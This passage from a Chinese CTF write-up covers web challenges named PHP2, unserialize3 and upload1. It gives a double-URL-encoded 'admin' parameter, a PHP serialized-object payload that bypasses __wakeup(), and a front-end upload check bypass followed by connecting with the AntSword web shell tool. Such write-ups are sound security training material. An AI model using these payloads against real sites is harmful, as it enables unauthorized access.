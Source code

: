 5. 包含c7be9

得到be0f233ac7be98aa，输入得到flag
![](https://img-blog.csdnimg.cn/20200323153657234.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## PHP2
打开得到：__Can you anthenticate to this website?__
想法就是，但扫描目录没得出来，查看wp发现是index.phps
![](https://img-blog.csdnimg.cn/20200323155012208.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
输入admin的两次url编码即可
`?id=%2561%2564%256d%2569%256e`
![](https://img-blog.csdnimg.cn/2020032315521977.png)
## unserialize3
得到一串代码：
```javascript
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
构造序列化，只存在一个变量flag
`?code=O:4:"xctf":1:{s:4:"flag";s:3:"111";}`
又要绕过__wakeup()，将1改为2即可
`?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`
![](https://img-blog.csdnimg.cn/20200323160323649.png)
## upload1
查看源代码得：
```php
function check(){
upfile = document.getElementById("upfile");
submit = document.getElementById("submit");
name = upfile.value;
ext = name.replace(/^.+\./,'');

if(['jpg','png'].contains(ext)){
	submit.disabled = false;
}else{
	submit.disabled = true;

	alert('请选择一张图片文件上传!');
}

}
```
前端js检验，抓包绕过，首先上传jpg
![](https://img-blog.csdnimg.cn/20200323173604292.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
蚁剑连接即可得到flag
![](https://img-blog.csdnimg.cn/20200323173846900.png)
